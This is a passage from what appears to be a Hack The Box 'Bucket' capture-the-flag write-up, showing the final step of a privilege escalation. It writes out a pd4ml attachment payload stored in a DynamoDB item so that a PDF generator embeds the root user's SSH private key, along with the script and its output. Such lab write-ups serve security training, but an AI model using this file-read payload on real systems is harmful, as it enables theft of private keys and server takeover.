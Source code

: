 However, this does not work. We can't simply ask it to grab the ssh key - we need to put in a bit of extra work, and take a closer look at the Java `pd4ml` library. 

## Final Payload - Downloading Root Private Key

Specifically, we can use `pd4ml` to [create an attachment](https://pd4ml.com/cookbook/pdf-attachments.htm) in the PDF.

So now we update our `data` tag:

```
"data": {"S": "<html><pd4ml:attachment src='file:///root/.ssh/id_rsa' description='attachment sample' icon='Paperclip'/>"}
```

And we can use this as our malicious payload. We just have to escape some quotation marks:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/writeup_attempt]
└─$ cat create-and-curl 
aws --endpoint-url=http://s3.bucket.htb dynamodb create-table --table-name alerts --key-schema AttributeName=title,KeyType=HASH --attribute-definitions AttributeName=title,AttributeType=S --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
aws --endpoint-url=http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{ "title": {"S": "Ransomware"},"data": {"S": "<html><pd4ml:attachment src=\"file:///root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/>"} }' --return-consumed-capacity TOTAL
aws --endpoint-url=http://s3.bucket.htb dynamodb scan --table-name alerts

curl -X POST -d 'action=get_alerts' localhost:8000
sleep 0.5
wget localhost:8000/files/result.pdf
```

And then run our script:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/writeup_attempt]
└─$ ./create-and-curl 
{
    "TableDescription": {
        "AttributeDefinitions": [
            {
                "AttributeName": "title",
                "AttributeType": "S"
            }
        ],
        "TableName": "alerts",
        "KeySchema": [
            {
                "AttributeName": "title",
                "KeyType": "HASH"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": "2021-04-29T12:54:29.454000+01:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1970-01-01T00:00:00+00:00",
            "LastDecreaseDateTime": "1970-01-01T00:00:00+00:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 5,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
```